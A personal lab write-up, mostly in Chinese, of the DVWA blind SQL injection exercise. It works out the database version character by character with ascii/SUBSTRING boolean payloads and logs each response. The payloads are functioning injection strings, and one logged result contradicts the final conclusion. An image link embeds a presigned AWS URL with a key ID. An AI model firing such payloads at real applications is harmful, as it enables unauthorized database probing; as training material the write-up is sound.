 # SQL Injection (Blind)


> Objective:
Find the version of the SQL database software through a blind SQL attack.
>

### 卡關 QQ

但如果再增加下去 10.x.x 的判斷會無效，崩潰

換個環境再測 db 是 `5.7.34` ，也是第二個小數點之後無法正常判斷，頂多只能判斷到 5.7

```sql
id=1 AND (SELECT SUBSTRING((SELECT @@version),1,5)) = 10.10&Submit=Submit
```

```sql
id=1 AND (SELECT @@version) like 10.1.26-MariaDB-0+de&Submit=Submit
```

```sql
id=1 AND SELECT (SELECT @@version)) = 5.7.34&Submit=Submit
```

![](https://s3.us-west-2.amazonaws.com/secure.notion-static.com/ffffd1c6-c73a-4723-9dba-eda574016665/Untitled.png?X-Amz-Algorithm=AWS4-HMAC-SHA256&X-Amz-Content-Sha256=UNSIGNED-PAYLOAD&X-Amz-Credential=AKIAT73L2G45EIPT3X45%2F20220216%2Fus-west-2%2Fs3%2Faws4_request&X-Amz-Date=20220216T162046Z&X-Amz-Expires=86400&X-Amz-Signature=996d44a6b6eb9f6ff039d065ca28e6c15f2dae3bc3edbef07c9a1fb524da51da&X-Amz-SignedHeaders=host&response-content-disposition=filename%20%3D%22Untitled.png%22&x-id=GetObject)

---

# Update - February 21, 2022

```sql
SELECT 1, (SELECT (version())) <> 0;
```

```sql
id=1 AND (SELECT version() <> 0); &Submit=Submit
# User ID exists in the database
```

```sql
id=1 AND (SELECT version() = 5.7); &Submit=Submit
# User ID exists in the database
```

```sql
id=1 AND (SELECT version() = '5.7.34'); &Submit=Submit
# User ID is MISSING in the database
```

也是無法完整猜測

### Done

因此參考別人的 writeup 後才知道可以用 `ascii` 將字串轉換成數字，這樣就可以不用擔心單引號被過濾了，基本上這邊只要能轉換成數字型態就可以了

```sql
SELECT SUBSTRING((SELECT @@version),1,6)
# 5.7.34
```

5

```sql
SELECT 1=1 AND (SELECT ascii(SUBSTRING((SELECT @@version),1,1)) = 53); &Submit=Submit
# User ID is MISSING in the database
```

SUBSTRING((SELECT @@version),2,1) 代表第2個字串的值

```sql
select SUBSTRING((SELECT @@version),2,1);
# .
```

.

```sql
id=1 AND (SELECT ascii(SUBSTRING((SELECT @@version),2,1)) = 46); &Submit=Submit
# User ID exists in the database
```

7

```sql
id=1 AND (SELECT ascii(SUBSTRING((SELECT @@version),3,1)) = 55); &Submit=Submit
# User ID exists in the database
```

.

```sql
id=1 AND (SELECT ascii(SUBSTRING((SELECT @@version),4,1)) = 46); &Submit=Submit
# User ID exists in the database
```

3

```sql
id=1 AND (SELECT ascii(SUBSTRING((SELECT @@version),5,1)) = 51); &Submit=Submit
# User ID exists in the database
```

.

```sql
id=1 AND (SELECT ascii(SUBSTRING((SELECT @@version),6,1)) = 46); &Submit=Submit
# User ID is MISSING in the database
```

4

```sql
id=1 AND (SELECT ascii(SUBSTRING((SELECT @@version),6,1)) = 52); &Submit=Submit
# User ID exists in the database
```

從上面嘗試的結果就可以推敲出版本

```
5.7.34
```

---
# Ref

- DVWA 通关指南：SQL Injection-Blind(SQL 盲注) - 乌漆WhiteMoon - 博客园
[https://www.cnblogs.com/linfangnan/p/13694057.html](https://www.cnblogs.com/linfangnan/p/13694057.html)

- SQL CAST and SQL CONVERT function overview
[https://www.sqlshack.com/overview-of-the-sql-cast-and-sql-convert-functions-in-sql-server/](https://www.sqlshack.com/overview-of-the-sql-cast-and-sql-convert-functions-in-sql-server/)
